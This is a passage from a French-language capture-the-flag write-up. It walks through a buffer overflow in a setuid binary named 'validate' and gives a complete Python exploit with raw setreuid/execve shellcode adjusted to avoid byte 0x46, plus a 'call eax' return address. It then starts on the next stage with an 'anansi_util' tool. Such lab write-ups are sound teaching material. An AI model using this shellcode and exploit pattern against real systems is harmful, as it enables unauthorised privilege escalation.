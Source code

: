 Cette fois c'est le registre eax qui pointe vers notre chaîne :  

```plain
(gdb) x/s $eax
0xffffcf48:     'A' <repeats 112 times>, "BBBBCCCC"
```

Il nous faut donc une adresse de retour de type *jmp eax* ou *call eax* ce qui s'obtient facilement avec *objdump* (*objdump -D validate | grep call*).  

En l'occurence il y a deux *call eax*, l'un en *080484af*, l'autre en *0804862b*.  

La randomisation étant activée c'est bien la solution à prendre.  

Maintenant, le point important c'est que le shellcode ne doit pas contenir de caractère F (0x46).  

0x46 correspond à l'instruction assembleur *inc esi* et à un niveau plus général 0x46 est utilisé comme base pour presque toutes les opérations concernant esi (pour résumer 0x46 = esi).  

Il nous faut donc un shellcode qui n'utilise pas ce registre.  

Mais l'auteur du challenge n'a pas choisi la valeur 0x46 au hasard : c'est aussi le code attribué à *sys\_setreuid* pour les syscalls...  

J'ai choisi [un shellcode qui effectue un setreuid de getuid](http://www.shell-storm.org/shellcode/files/shellcode-399.php) (ça fonctionne pour tous les binaires setuid root ou pas).  

Il faut seulement le changer un peu pour qu'à la place de faire le *push 0x46-pop eax* il fasse un *push 0x45-pop eax-inc eax*.  

L'opcode pour *inc eax* est 0x40.  

J'obtiens alors le shellcode et le code d'exploitation suivant :  

```python
import subprocess
import struct

ret = struct.pack("I", 0x0804862b)
shellcode = "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x45\x58\x40\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"
buffer = shellcode + "A" * (116 - len(shellcode)) + ret

subprocess.call(["/usr/local/bin/validate", buffer])
```

Notez qu'au début j'avais mis un nopsled au début puis le shellcode mais le programme tronquait la chaîne en plaçant un octet null aux deux tiers du shellcode provoquant une erreur. Peut-être l'effet d'un compteur écrasé... En plaçant le shellcode au tout début, pas de problèmes :)  

Root 66
-------

L'accès anansi obtenu, voyons voir ce que fait l'utilitaire mentionné plus tôt :  

```shellsession
anansi@brainpan:/home/anansi$ ./bin/anansi_util
Usage: ./bin/anansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]
```
